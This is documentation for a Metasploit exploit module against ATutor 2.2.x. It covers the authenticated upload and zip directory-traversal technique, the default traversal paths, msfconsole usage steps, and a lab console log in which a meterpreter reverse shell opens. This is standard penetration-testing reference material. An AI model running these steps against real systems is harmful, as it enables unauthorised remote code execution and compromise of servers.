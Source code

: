 ## Vulnerable Application
This module exploits an arbitrary file upload vulnerability together with a directory traversal
flaw in ATutor versions 2.2.4, 2.2.2 and 2.2.1 in order to execute arbitrary commands.

This module first authenticates to ATutor, using a randomly generated token to get around the front end JavaScript verification
being used by the server. Next, the module generates a zip file containing a malicious PHP file.
The zip archive takes advantage of a directory traversal vulnerability that will cause the target to drop the PHP file
in the root server directory (`htdocs` for Windows and `html` for Linux targets) when unpacking the archive.
For Windows targets, the module assumes that the target server uses XAMPP.
However, users can override this default by setting a custom file traversal path.
The PHP file contains an encoded payload that allows for remote command execution on the target server.
The zip archive can be uploaded via two vectors, the `Import New Language` function and the `Patcher` function.
The module first uploads the archive via `Import New Language` and then attempts to execute the payload
via an HTTP GET request to the PHP file in the root server directory.
If no session is obtained, the module creates another zip archive, uploads it via the `Patcher` function
and then attempts to execute the payload the same way as before. If a session is obtained, the module automatically
attempts to remove the malicious PHP file from the present working directory.

The module is compatible with both Windows and Linux targets. Users can specify a target OS, or use the `Auto` target option.
In the latter case, the module will try to detect the target OS based on the `Server` header set by the target
in it's response to an HTTP request. If detection is not possible in this manner, the module will assume the target is Windows x64,
which seems to be the most likely target based on the ATutor documentation.

The module requires valid credentials for an ATutor account with admin privileges.
It has been successfully tested against ATutor 2.2.4 running on a Windows 10 machine that used XAMPP.

## Verification Steps
1. Install the module as usual
2. Start msfconsole
3. Do: `use exploit/multi/http/atutor_upload_traversal`
4. Do: `set RHOSTS [IP]`
5. Do: `set USERNAME [username for the ATutor account]`
6. Do: `set PASSWORD [password for the ATutor account]`
7. Do: `set payload [payload]`
8. Do: `set LHOST [IP]`
9. Do: `exploit`

## Targets

```
Exploit targets:

   Id  Name
   --  ----
   0   Auto
   1   Linux
   2   Windows

```


## Options
### FILE_TRAVERSAL_PATH
This is the traversal path to get from the upload path to the root server directory.
It is used to make sure the malicious PHP is dropped in the root server directory when the zip being uploaded to the target
is unpacked on the server side. The default value for Windows targets is `..\\..\\..\\..\\..\\../xampp\\htdocs\\`.
This assumes the target uses XAMPP, as recommended in the ATutor documentation.
The default value for Linux targets is `../../../../../../var/www/html/`.

### PASSWORD
The password for the ATutor account to authenticate with. This option is required.

### TARGETURI
The base path to ATutor. The default value is `/ATutor/`.

### USERNAME
The username for the ATutor account to authenticate with. This option is required.

### WfsDelay
The number of seconds to wait for a session to be created. This advanced option is used by the module to verify
if exploitation via the `Import New Language` function succeeded. The default value is 3.

## Scenarios
### ATutor 2.2.4 running on Windows 10 (XAMPP)
```
msf5 exploit(multi/http/atutor_upload_traversal) > show options
                                                                                                                  
Module options (exploit/multi/http/atutor_upload_traversal):

   Name                 Current Setting  Required  Description
   ----                 ---------------  --------  -----------
   FILE_TRAVERSAL_PATH                   no        Traversal path to the root server directory. Default for Windows targets: `..\..\..\..\..\../xampp\htdocs\`. Linux Default: `../../../../../../var/www/html/.`
   PASSWORD             root             yes       Password to authenticate with
   Proxies                               no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS               192.168.1.12     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT                80               yes       The target port (TCP)
   SRVHOST              0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT              8080             yes       The local port to listen on.
   SSL                  false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                               no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI            /ATutor/         yes       The base path to ATutor
   URIPATH                               no        The URI to use for this exploit (default is random)
   USERNAME             root             yes       Username to authenticate with
   VHOST                                 no        HTTP server virtual host


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.1.28     yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Auto


msf5 exploit(multi/http/atutor_upload_traversal) > run

[*] Started reverse TCP handler on 192.168.1.28:4444 
[+] Successfully authenticated as user 'root'. We have admin privileges!
[+] Identified the target OS as Win64.
[*] Setting payload to windows/x64/meterpreter/reverse_tcp.
[*] Attempting exploitation via the `Import New Language` function.
[*] Uploaded malicious PHP file vanwqiz.php.
[*] Executing payload via /vanwqiz.php/qnwgdu?=<payload>...
[*] Command Stager progress -  17.01% done (2046/12025 bytes)
[*] Command Stager progress -  34.03% done (4092/12025 bytes)
[*] Command Stager progress -  51.04% done (6138/12025 bytes)
[*] Command Stager progress -  68.06% done (8184/12025 bytes)
[*] Command Stager progress -  84.24% done (10130/12025 bytes)
[*] Sending stage (201283 bytes) to 192.168.1.12
[*] Meterpreter session 1 opened (192.168.1.28:4444 -> 192.168.1.12:49512) at 2020-06-12 13:50:47 -0400
[*] Command Stager progress - 100.00% done (12025/12025 bytes)
[+] Deleted vanwqiz.php

meterpreter >

```
